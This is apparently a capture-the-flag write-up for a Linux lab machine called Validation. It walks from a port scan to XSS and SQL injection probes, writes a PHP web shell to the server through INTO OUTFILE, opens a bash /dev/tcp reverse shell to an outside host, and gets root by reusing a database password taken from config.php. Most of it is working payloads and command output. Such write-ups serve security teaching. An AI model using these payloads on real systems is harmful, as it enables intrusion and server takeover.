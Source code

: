 # Validation
### OS: Linux
### Difficulty: Easy

## Enumeration:
I'll start with a simple port scan.
```bash
nmap -sC -sV -p- 10.129.95.235 -oN nmap.txt

22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll start by taking a look at the HTTP server on port 80.

![80.index](images/img1.png)

I'll test this for XSS.
```html
<script>alert(1);</script>
```

![index](images/img2.png)

It works! But I don't think there is another user. I'll test for SQLi on the "country" parameter.
Payload:
```
username=a&country=Aruba'
```

![sqli](images/img3.png)

And there might be one. I'll modify the payload to ignore the rest of the command.
```bash
username=a&country=Aruba'-- -
```

![sqli2](images/img4.png)

Now we can confirm there is a SQLi vulnerability. Further enumeration:

List databases:
```
username=a&country=Aruba' UNION select DATABASE();-- -
```
We get:
```
registration
```

Let's see what rights we have. First let's see as what user are we connect to the database.
```
username=a&country=Aruba' UNION select user();-- -
```
Output:
```
uhc@localhost
```

```
username=a&country=Aruba' UNION select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'";-- -
```

Rights:
```
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```

## Foothold:

The file right stands out. We could try to add a reverse shell page.

```
username=a&country=Aruba' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/shl.php' ;-- -
```

Now let's test it:
```bash
curl http://10.129.95.235/shl.php?cmd=ls
account.php
config.php
css
index.php
js
shl.php
```

It works! Now let's start a reverse shell.
```bash
# On host:
rlwrap nc -lnvp 6666

# On web shell
touch shl.sh
echo 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1'>shl.sh
bash shl.sh
```

**Note**: There was some kind of filtering mechanism. That's why I could not just start the reverse shell from the web shell.

## Privilege Escalation:

We can now look at the config file.
```bash
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Maybe this is a password reuse situation.
```bash
su -
uhc-9qual-global-pw

whoami
root
```

And I was right! We got both flags!